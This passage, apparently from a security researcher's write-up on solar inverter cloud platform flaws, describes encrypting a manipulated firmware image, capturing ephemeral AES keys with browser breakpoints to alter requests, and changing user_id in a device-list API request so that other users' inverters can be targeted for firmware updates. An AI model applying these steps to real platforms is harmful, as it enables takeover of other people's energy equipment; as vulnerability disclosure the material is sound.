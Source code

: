 After padding the plain `zip` file with `0x00` (alignment to 128 bits), it has been encrypted as described previously, the result is `POCE.zip`.

### Uploading the manipulated firmware image and updating the inverter

This process could be performed with `curl` as described before or directly via the web cloud access. Here are the steps needed:

1. Create an installer account (can be done by anybody at any time)

2. In the left bar, click on **Firmware Update**

3. By adding a breakpoint in the javascript, it is possible to get the ephemeral AES128 keys used for http content encryption:

![k1](https://raw.githubusercontent.com/veganmosfet/SolarFlareSec/main/pics/k1.png)

Another breakpoint is added before the http request is sent. Thereby the payload can be modified.
The modified payload can be encrypted externally:

![k2](https://raw.githubusercontent.com/veganmosfet/SolarFlareSec/main/pics/k2.png)

The encrypted payload is then injected in the debugger via the console and the request is sent.

4. By modifying the `user_id` in the `getRemoteUpgradeDeviceList` request, any user can be targeted (timestamp and nonce have to be adapted):

```json
{
    "sys_code": 0,
    "psIds": "",
    "device_type": 1,
    "device_model_id": "",
    "device_sn": "",
    "user_id": [targeted_user_id],
    "ps_id_list": [],
    "sn_list": [],
    "uuid_list": [],
    "curPage": 1,
    "size": 10,
    "service": "getRemoteUpgradeDeviceList",
    "api_key_param": {
        "timestamp": [timestamp],
        "nonce": "[NONCE]"
    },
    "appkey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
    "_vc": "XXXXXXXXXX",
    "token": "xxxxxx_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
}
```

The platform shows the devices associated with the targetted user (not the user logged in!):

![k3](https://raw.githubusercontent.com/veganmosfet/SolarFlareSec/main/pics/k3.png)
